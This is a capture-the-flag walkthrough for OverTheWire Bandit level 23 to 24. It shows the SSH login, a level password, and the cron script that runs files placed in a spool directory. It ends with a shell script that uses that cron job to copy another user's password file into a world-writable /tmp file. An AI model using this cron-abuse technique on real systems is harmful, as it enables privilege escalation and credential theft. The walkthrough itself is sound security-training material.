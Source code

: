 ## [Bandit Level 23 → Level 24](https://overthewire.org/wargames/bandit/bandit24.html)

```bash
ssh bandit23@bandit.labs.overthewire.org -p 2220
password: 'QYw0Y2aiA672PsMmh9puTQuhoz8SyR2G'
```

> **Hint:** A program is running automatically at regular intervals from cron, the time-based job scheduler. Look in /etc/cron.d/ for the configuration and see what command is being executed.
>
>**NOTE:** This level requires you to create your own first shell-script. This is a very big step and you should be proud of yourself when you beat this level!
>
>**NOTE 2:** Keep in mind that your shell script is removed once executed, so you may want to keep a copy around…

Code to answer:

```bash
$ cd /etc/cron.d/
$ cat cronjob_bandit24
'@reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null'
$ cat /usr/bin/cronjob_bandit24.sh
'#!/bin/bash

myname=$(whoami)
cd /var/spool/$myname/foo
echo "Executing and deleting all scripts in /var/spool/$myname/foo:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -f ./$i
    fi
done'


$ touch /tmp/my_pass
$ chmod 777 /tmp/my_pass
$ cd /var/spool/bandit24/foo
$ vim my_script.sh
```

Put the folowing content:

```bash
#!/bin/bash
cat /etc/bandit_pass/bandit24 > /tmp/my_pass
```

